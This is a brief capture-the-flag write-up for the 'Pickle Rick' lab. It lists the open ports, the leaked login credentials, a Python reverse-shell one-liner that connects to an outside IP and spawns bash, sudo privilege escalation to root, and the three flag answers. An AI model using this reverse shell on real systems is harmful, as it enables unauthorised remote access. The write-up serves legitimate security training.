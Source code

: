 # Pickle Rick

# 25 September 2021

# Nmap 

22/tcp
80/tcp

# Web Directories

 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

robots.txt >

Wubbalubbadubdub

# Login
Completed
# Python Reverse Shell 

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.49.75",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

# Bash Shell Discovery

www-data@ip-10-10-20-66:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt > ` mr. meeseek hair  `
assets 
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

/home/rick > `1 jerry tear`

# Escalating Privileges

www-data@ip-10-10-20-66:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-20-66.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-20-66.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

# Root

cd /root/
ls

3rd.txt
snap

cat 3rd.txt

3rd ingredients: `fleeb juice`

# All Ingredients

# mr. meseek hair

# fleeb juice

# 1 jerry tear




